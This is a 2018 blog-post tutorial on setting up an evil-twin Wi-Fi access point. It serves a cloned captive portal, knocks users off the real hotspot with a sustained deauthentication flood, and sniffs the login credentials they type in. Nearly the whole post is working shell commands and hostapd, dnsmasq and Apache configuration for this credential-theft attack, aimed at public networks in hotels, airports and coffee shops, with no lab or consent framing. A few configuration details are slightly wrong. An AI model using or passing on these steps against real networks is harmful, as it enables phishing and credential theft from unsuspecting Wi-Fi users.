 ```yaml
---
layout: post
comments: true
title:  "Building a Fake Access Point and Using a Captive Portal to Get Login Credentials"
date:   2018-12-23 21:26:27
categories: Kali, DHCP, hostapd, DNS, apache, wireshark
---
```


 Note: for this project I will presume that you have already cloned a captive portal of an open business network that you usually would see in airports, hotel lobbies, coffee shops, and other venues that offer free Wi-Fi hot spots. Also, I will presume you have a wireless adapter that supports monitor mode and packet injection with Kali Linux installed (or other penetration testing OS installed). Yayy! Now let's move on to the main course of this documentation.

Below I have documented the process on how to manually create a fake Access Point (AP). However, in order to build a fake AP, one needs to understand the main components of a wifi network. These components are:

1. A wifi card (router) in order to broadcast the signal of an AP. (I will use hostapd tool to broadcast the signal)
2. A DHCP server to give IP addresses to clients that connect to our AP. (I will use dnsmasq tool as a DHCP server)
3. A DNS server to handle DNS requests. (I will use dnsmasq tool as a DNS server)
* dnsmasq tool is rather convenient to use, since it can be used as a DHCP and DNS server at the same time!

* To install hostapd and dnsmasq, type the below command in terminal.  
```shell
apt-get install hostapd dnsmasq
```

1. After installing hostapd and dnsmasq, connect your wireless adapter (ifconfig to confirm this). Once adapter is connected do:
```shell
service network-manager stop
```
(Reason to stop network manager is so that it does not prevent the fake AP from broadcasting a wifi signal)

2. Next, we should enable IP forwarding so that packets can flow through the computer without being dropped. Not only that, we must also delete any IP table rules that might interfere with what we are trying to achieve. Hence, the below commands must be entered in the terminal to clear any firewall rules that might be redirecting packets to somewhere else.
```shell
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables --flush
iptables --table nat --flush
iptables --delete-chain
iptables --table nat --delete-chain
iptables -P FORWARD ACCEPT
```
(By default there should not be any IP table rules, however to be on the safe side, if a program modifies and adds IP tables rules then the fake AP will fail, hence the following commands are a precaution.)

3. Next, we will configure dnsmasq to be used as a DHCP server and DNS server. Here, copy the below code and save it in a file called dnsmasq.conf
```shell
#Set the wifi interface
interface=wlan0
#Set the ip range that can be given to clients
dhcp-range=10.0.0.10,10.0.0.100,8h
#Set the gateway IP address
dhcp-option=3,10.0.0.1
#Set dns server address
dhcp-option=6,10.0.0.1
#Redirect all requests to 10.0.0.1
address=/#/10.0.0.1
```
(The first line that says interface can be found by doing ifconfig and this interface is the one that you wireless adapter uses. The second line states that the range is from 10 to 100 and each ip can last for 8 hours. The third line states the IP of wlan0, usually the 1st IP is used for the the gateway/router and the same config is used for the fourth line. The fifth line states to redirect any request to router's IP)

4. In terminal type the following command to start DHCP server and DNS server.
```shell
dnsmasq -C /root/Downloads/fake-ap/dnsmasq.conf
```
(Note: make sure you change the above path to where you saved the dnsmasq.conf file)

5. Next, we will configure hostapd to start fake AP, in order to allow people to connect to it. Here, copy the below code and save it in a file called dnsmasq.conf
```shell
#Set wifi interface
interface=wlan0
#Set network name
ssid=FakeAP
#Set channel
channel=1
#Set driver
driver=nl80211
```
(Note: when you set the network name, make sure it has the same name as the captive portal and you can feel free to add a version to it like "FakeAP V2")

6. In terminal type the following command to start hostapd and to begin broadcasting a signal.
```shell
hostapd /root/Downloads/fake-ap/hostapd.conf -B
```
(Here, -B is used so that it will execute the above command in the background. Also, make sure you change the above path to where you saved the hostapd.conf file)

7. Next, we will configure wlan0 (or whatever interface that your running) to have an IP address of 10.0.0.1
```shell
ifconfig wlan0 10.0.0.1 netmask 255.255.255.0
```
(Note: change interface to the one you are using, in my case its wlan0. The reason we use 10.0.0.1 is because this is the ip address that is used by the dnsmasq.conf and all the requests is configured to go to this IP. Here, 255.255.255.0 address is the most common subnet mask used on computers connected to Internet Protocol (IPv4) networks)

8. Start Web server to launch the cloned captive portal. Hence, when the client clicks on the fake AP the captive portal web page is displayed.
```shell
service apache2 start
```

9. In this step, we will sniff and analyze login credentials that the user enters into the cloned captive portal. However, instead of waiting for client to connect to FakeAP we could use a deauthentication attack on the real captive portal network and lure clients into using the FakeAP. Hence, we will run the following deauthentication attack command in terminal.
```shell
aireplay-ng --deauth 100000 -a (mac address of AP) wlan0
```
Note: in order to find mac address of AP use airodump-ng as follows:
    ```shell
    airodump-ng --band a wlan0
    ```
    
10. By continously sending thousand of deauth packets... it will prevent the user from reconnecting back to the portal. Hence, they will be lured into using our fake captive portal. Now, we can start to sniff the login info either by using Ettercap or MITMF, but for this example I will use Tshark. 
```shell
tshark -i wlan0 -w wifisniff.cap
```
(Note: -i wlan0 is the interface used to sniff data which will be our wireless card and -w wifisniff.cap will be where I store all the sniffed data)

Once a client enters the credential, we can analyze the .cap file using Wireshark. Just simply type *wireshark* in terminal and filter out http and search for a POST request. Eventually you should find the clients credentials in the HTML form :)


**Update - Redirecting Requests to Captive Portal Login Page**

When a client first connects to a captive portal the system will send requests to a specific server depending on the system whether it runs on mac OS, Linux or Windows. If the system gets a response it was expecting then it will think that this is a normal network and it wont do anything.
    However, if the clients system does not get a response it was expecting, it will then think that the network is a captive portal and it will proceed to show the client the captive portal login page.

**Solution for the above issue**

1. Requests sent to www. websites have to be redirected to just the domain name (for example, google.com instead of www.google.com). Therefore, in order to achieve this we have to modify the apache configuration file.
To open the configuration file type the following in terminal:
```shell
leafpad /etc/apache2/sites-enabled/000-default.conf
```
(Note: I am using leafpad text editor to open the configuration file... feel free to use another text editor.)

2. In order to delete just the www part, we need to use rewrite rules to redirect www to just the domain name. In this case we will add a directory tag at the bottom of the configuration file.
```html
<Directory "/var/www/html">  <!-- /var/www/html is the location of where my website is stored-->
    RewriteEngine On         <!--enables rewrite engine-->
    RewriteBase /            <!--rewrite base is in web root-->
    RewriteCond %{HTTP_HOST} ^www\.(.*)$ [NC]   <!--rewrite condition works based on Regex-->
    RewriteRule ^(.*)$ http://%1/$1 [R=301,L]
</Directory>
```
(Note: paste the above code, save and close text editor)

3. Restart apache web server in terminal.
```shell
service apache2 restart
```

4. After restarting web server and if you test out the FakeAP network, you will notice a web browser pop up. However, this browser will show a 404 error saying "Not Found". To fix this, we will configure the web server so that if a file is not found it will redirect the person to the home page, in our case it would be the cloned captive portal login page. So in terminal type the following command and feel free to use your preferred text editor:
```shell
leafpad /etc/apache2/sites-enabled/000-default.conf
```

5. On the top of the configuration file type in the following:
```html
ErrorDocument 404 /
```
(Note: Here / is used to redirect to web root) Don't close the text editor just yet... see next step!

6. Also, just to be on the safe side at the bottom of the configuration file inside the <Directory> tag we will put the following rewrite rules. This step is the same as the above step but it is used to make sure that it works with any smart phone.
```html
RewriteCond %{REQUEST_FILENAME} !-f
RewriteCond %{REQUEST_FILENAME} !-d
RewriteCond ^(.*)$ / [L,QSA]
```

7. Restart apache web server in terminal. Now, your page should pop up in a web browser when a client clicks on the FakeAP network.
```shell
service apache2 restart
```    
